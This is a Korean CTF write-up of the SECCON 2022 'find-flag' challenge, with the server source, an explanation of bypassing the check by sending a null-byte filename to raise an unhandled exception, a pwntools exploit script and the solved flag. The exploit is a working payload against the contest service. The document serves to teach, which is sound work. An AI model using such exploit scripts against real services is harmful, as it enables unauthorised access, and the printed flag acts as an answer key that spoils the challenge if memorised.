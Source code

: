```yaml
---
layout: post
title: find-flag
parent: SECCON 2022
tags: [MISC]
grand_parent: CTF Write-ups
nav_order: 2
lang: ko
lang-ref: SECCON 2022
---
```


# Find-Flag

```python
#server.py
#!/usr/bin/env python3.9
import os

FLAG = os.getenv("FLAG", "FAKECON{*** REDUCTED ***}").encode()
print(len(FLAG))
def check():
    try:
        filename = input("filename: ")
        if open(filename, "rb").read(len(FLAG)) == FLAG:
            return True
    except FileNotFoundError:
        print("[-] missing")
    except IsADirectoryError:
        print("[-] seems wrong")
    except PermissionError:
        print("[-] not mine")
    except OSError:
        print("[-] hurting my eyes")
    except KeyboardInterrupt:
        print("[-] gone")
    return False

if __name__ == '__main__':
    try:
        check = check()
    except:
        print("[-] something went wrong")
        exit(1)
    finally:
        if check:
            print("[+] congrats!")
            print(FLAG.decode())
```

```python
if __name__ == '__main__':
    try:
        check = check()
    except:
        print("[-] something went wrong")
        exit(1)
    finally:
        if check:
            print("[+] congrats!")
            print(FLAG.decode())
```

위의 코드에서 주목할 점은 FLAG print가 finally 안에 있다는 것이다.

즉, check() 함수에서 예외를 발생시켜서 check 과정을 우회 할 수 있는 것이다.

```python
except FileNotFoundError:
        print("[-] missing")
    except IsADirectoryError:
        print("[-] seems wrong")
    except PermissionError:
        print("[-] not mine")
		except OSError:
        print("[-] hurting my eyes")
```

check() 함수에서 예외 처리 된 ERROR 목록이다.

해당 예외가 아닌 다른 예외를 일으키면 우회가 가능하다.

나는 ValueError: embedded null byte를 사용하여 우회를 진행하였다

```c
//local_setup.c
//gcc -o local_setup local_setup.c

#include <stdlib.h>

void main()
{
    system("/usr/bin/python3 server.py");
}
```

위는 Docker를 실행하지 않고 로컬에서 돌리기 위해 c 코드를 사용하여 코드를 실행 시키는 과정이다.

```python
#exploit.py
#remote exploit

"""from pwn import *

payload = b'\x00'
r = remote('find-flag.seccon.games', 10042)
r.recvuntil(b"filename: ")
r.sendline(payload)
print(r.recv())"""

#local exploit

from pwn import *

p = process('./local_setup')
payload = b'\x00'

p.recvuntil(b'filename: ')
p.sendline(payload)
print(p.recv())
```

![image](/assets/images/SECCON2022/Find-Flag/find-flag.png)

`FLAG: SECCON{exit_1n_Pyth0n_d0es_n0t_c4ll_exit_sysc4ll}`